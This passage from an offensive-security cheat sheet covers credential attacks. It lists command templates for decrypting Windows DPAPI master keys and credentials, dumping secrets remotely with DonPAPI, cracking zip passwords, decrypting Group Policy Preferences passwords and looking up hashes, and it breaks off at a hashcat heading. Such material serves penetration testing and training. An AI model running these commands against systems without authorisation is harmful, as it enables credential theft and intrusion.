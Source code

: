 ### Get Masterkey

```console
$ impacket-dpapi masterkey -file 99cf31a4-a552-4cf7-a8d7-aca2d6f7339b -password <PASSWORD> -sid S-1-5-21-4024337825-2033395866-2055507597-1115
```

### Decrypt Data

```console
$ impacket-dpapi credential -file C4BB96844A5C9DD43D5B6A9759252BA6 -key 0xf8901b3125dd10208da9f66562df2e68e89a48cd0278b48a47f510df01418e68b253c61707f3935662243d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

## DonPAPI

> https://github.com/login-securite/DonPAPI

```console
$ DonPAPI <DOMAIN>/<USERNAME>:<PASSWORD>@<RHOST>
$ DonPAPI -local_auth <USERNAME>@<RHOST>
$ DonPAPI --hashes <LM>:<NT> <DOMAIN>/<USERNAME>@<RHOST>
$ DonPAPI -laps <DOMAIN>/<USERNAME>:<PASSWORD>@<RHOST>
```

## fcrack

```console
$ fcrackzip -u -D -p /PATH/TO/WORDLIST/<WORDLIST> <FILE>.zip
```

## Group Policy Preferences (GPP)

### gpp-decrypt

> https://github.com/t0thkr1s/gpp-decrypt

```console
$ python3 gpp-decrypt.py -f Groups.xml
$ python3 gpp-decrypt.py -c edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

## Hash-Buster

> https://github.com/s0md3v/Hash-Buster

```console
$ buster -s 2b6d315337f18617ba18922c0b9597ff
```

## hashcat

